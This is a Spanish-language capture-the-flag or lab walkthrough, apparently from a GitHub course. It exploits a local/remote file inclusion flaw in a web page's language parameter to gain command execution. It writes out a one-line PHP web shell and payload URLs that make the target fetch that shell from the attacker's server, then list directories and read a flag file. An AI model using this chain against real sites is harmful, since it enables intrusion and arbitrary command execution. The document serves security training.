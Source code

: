 # LFI: RFI -> RCE 👩‍💻

La página web que vulneraremos es:

![Web.PNG](./assets/05-Quinto/01-web.PNG)

* Vemos el **atributo** `?language=<Archivo>.php` en el cual podemos lograr un LFI y, en este caso, derivarlo a un `RCE` 👩‍💻

---

1. Para comprobar si la página es vulnerable a `RFI`, primero levantaremos un **servidor http** con Python 🐍

```
python3 -m http.server 80
```

2. Realizaremos una petición a nuestro servidor a través del parámetro `?language=http://<IP Atancante>:<Puerto>`

3. Vemos los logs del servidor http.

<p align="center">
    <img src="./assets/05-Quinto/02-RFI.PNG">
</p>

* Notamos que el servidor web vulnerable realiza un petición a nuestro servidor **http**, por lo cual, el servidor web es vulnerable a `RFI` 👩‍💻

---

Creamos un script en php que nos permita ejecutar comandos a través del parámetro `cmd`

* `script.php`

    ```php
    <?php system($_GET['cmd']); ?>
    ```

---

Ahora realizamos la petición a este **script** y listamos los archivos de la `ruta del sistema` 💻

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=ls /`

<p align="center">
    <img src="./assets/05-Quinto/03-exercise.PNG">
</p>

`Exercise` es un directorio, así que, lo listaremos 

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=ls /exercise`

<p align="center">
    <img src="./assets/05-Quinto/04-flag.PNG">
</p>

---

Por último, leemos el archivo `flag.txt`

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=cat /exercise/flag.txt`

<p align="center">
    <img src="./assets/05-Quinto/05-final.PNG">
</p>